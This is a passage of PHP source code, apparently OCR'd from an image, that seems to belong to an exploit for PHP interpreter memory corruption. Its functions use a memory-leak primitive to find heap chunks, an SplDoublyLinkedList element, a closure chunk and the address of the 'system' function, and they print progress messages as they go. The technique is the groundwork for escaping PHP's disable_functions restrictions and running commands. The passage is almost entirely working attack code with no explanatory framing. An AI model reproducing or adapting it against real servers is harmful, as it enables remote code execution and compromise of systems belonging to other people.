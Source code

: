 ```
            $address = array(s2i(hex2bin($start)), s2i(hex2bin($end)), $length);
            echo "[+]PHP Chunk: " . $start . " - " . $end . ", length: 0x" . dechex($length) . "\n";
            return $address;
        }
    }
}

function bomb1(&$a) {
    if (leak($a, s2i($_GET["test1"])) === 0x5454545454545454) {
        return (s2i($_GET["test1"]) & 0x7ffff0000000);
    }else {
        die("[!]Where is here");
    }
}

function bomb2(&$a) {
    $start = s2i($_GET["test2"]);
    return getElement($a, array($start, $start + 0x200000, 0x200000));
    die("[!]Not Found");
}

function getElement(&$a, $address) {
    for ($x = 0;$x < ($address[2] / 0x1000 - 2);$x++) {
        $addr = 0x108 + $address[0] + 0x1000 * $x + 0x1000;
        for ($y = 0;$y < 5;$y++) {
            if (leak($a, $addr + $y * 0x08) === 0x1234567812345678 && ((leak($a, $addr + $y * 0x08 - 0x08) & 0xffffffff) === 0x01)){
                echo "[+]SplDoublyLinkedList Element: " . dechex($addr + $y * 0x08 - 0x18) . "\n";
                return $addr + $y * 0x08 - 0x18;
            }
        }
    }
}

function getClosureChunk(&$a, $address) {
    do {
        $address = leak($a, $address);
    }while(leak($a, $address) !== 0x00);
    echo "[+]Closure Chunk: " . dechex($address) . "\n";
    return $address;
}

function getSystem(&$a, $address) {
    $start = $address & 0xffffffffffff0000;
    $lowestAddr = ($address & 0x0000fffffff00000) - 0x0000000001000000;
    for($i = 0; $i < 0x1000 * 0x80; $i++) {
        $addr = $start - $i * 0x20;
        if ($addr < $lowestAddr) {
            break;
        }
        $nameAddr = leak($a, $addr);
        if ($nameAddr > $address || $nameAddr < $lowestAddr) {
            continue;
        }
        $name = dechex(leak($a, $nameAddr));
        $name = str_pad($name, 16, "0", STR_PAD_LEFT);
        $name = strrev(hex2bin($name));
        $name = explode("\x00", $name)[0];
        if($name === "system") {
            return leak($a, $addr + 0x08);
        }
    }
```